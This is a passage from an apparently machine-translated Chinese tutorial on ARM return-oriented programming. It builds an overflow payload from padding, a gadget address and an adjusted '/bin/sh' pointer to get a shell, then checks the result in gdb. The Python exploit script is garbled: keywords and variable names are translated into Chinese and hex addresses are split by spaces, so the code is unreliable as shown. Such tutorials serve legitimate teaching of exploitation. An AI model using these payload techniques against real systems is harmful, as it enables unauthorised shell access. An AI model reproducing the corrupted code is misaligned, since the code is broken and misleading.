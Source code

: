 > *0x000fe910:加 r0，r0，# 0x80pop {r3，PC }；*

*因此，这会将 0x80 加到 r0 上，并弹出 r3 和 pc。接下来我们要做的是修改漏洞，将“/bin/sh”字符串的地址更改为 0x B6 f 91 b 2–0x80，这样我们就可以使用这个小工具添加 0x 80，并将 r0 中的值改回指向“/bin/sh”字符串的地址。之后还有 2 个 pop 会 pop r3 和 pc。我们可以把任何垃圾值放在 r3 和 pc 上的系统地址里。所以让我们开始吧*

> *#!/usr/bin/python
> 导入结构*
> 
> *base = 0xb6e74000*
> 
> *junk = " A " * 36
> gadget 1 = struct . pack("<I "，base+0x 00031874)# ldr gadget
> junk 1 = " AAAA "
> binsh = struct . pack("<I "，base+0x 11 db 20–0x 80)#/bin/sh string*
> 
> *印刷品(垃圾+小配件 1+垃圾 1+垃圾箱)*

*现在，如果您运行 gdb 并检查“ldr r0，[sp，#4]”，我们可以看到 0x b 6 f 91 b 20–0x 80，ie = 0xb6f91aa0*

*![](img/a1e031ea3f93ef8306061e002c196f60.png)*

*如果我们执行 si，sp+4 = 0xb6f91aa0 的值将载入 r0。*

*![](img/694be8a420451b0bc391eed196502afd.png)*
